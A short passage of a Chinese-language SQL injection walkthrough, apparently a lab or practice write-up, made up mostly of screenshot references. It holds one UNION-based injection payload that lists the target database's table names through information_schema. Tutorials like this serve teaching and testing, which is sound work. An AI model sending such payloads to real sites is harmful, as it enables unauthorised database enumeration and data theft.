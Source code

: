 > <img src="./IMG/(UJK$(3H3YD{2V[}5{6D_X0.png">

通过上图确认回显点为1，2，开始注入，查询当前数据库

> <img src="./IMG/4JWBM(F3O27X8]NLF%NAH2C.png">

查询所有表名

**基本语法**

```sql
1' union select version(),group_concat(table_name) from information_schema.tables where table_schema=database() #
```

> <img src="./IMG/X56}@32_0@AMDSQ`K[D(DT3.png">
